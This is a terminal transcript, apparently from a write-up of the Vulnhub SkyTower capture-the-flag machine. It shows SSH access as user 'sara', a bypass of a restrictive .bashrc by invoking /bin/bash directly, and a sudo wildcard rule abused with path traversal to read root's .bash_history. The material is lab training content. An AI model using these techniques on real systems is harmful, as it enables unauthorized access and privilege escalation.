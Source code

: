 ```bash
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 08:19:23 2014 from localhost

Funds have been withdrawn
Connection to 127.0.0.1 closed.
                                                               
┌──(kali㉿kali)-[~/Downloads/Vulnhub/SkyTower]
└─$ ssh sara@127.0.0.1 -p 2222 /bin/bash
sara@127.0.0.1s password: 
whoami 
sara
ls -al
total 20
drwx------ 2 sara sara 4096 Jun 20  2014 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw-r--r-- 1 sara sara  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 sara sara 3437 Jun 20  2014 .bashrc
-rw-r--r-- 1 sara sara  675 Jun 20  2014 .profile
rm .bashrc
exit
                                                               
┌──(kali㉿kali)-[~/Downloads/Vulnhub/SkyTower]
└─$ ssh sara@127.0.0.1 -p 2222          
sara@127.0.0.1 is password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep 12 03:55:37 2023 from localhost
sara@SkyTower:~$ ls -al
total 16
drwx------ 2 sara sara 4096 Sep 12 03:56 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw-r--r-- 1 sara sara  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 sara sara  675 Jun 20  2014 .profile
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls
    /accounts/*
sara@SkyTower:~$ sudo -u root /bin/cat /accounts/../root/.bash_history
ls
screen -x
ls
cd /var/www/
ls
cat login.php 
vi login.php 
aptitude search php|grep mysql
aptitude install php5-mysql
dhclient
/sbin/ifconfig 
aptitude install php5-mysql
```
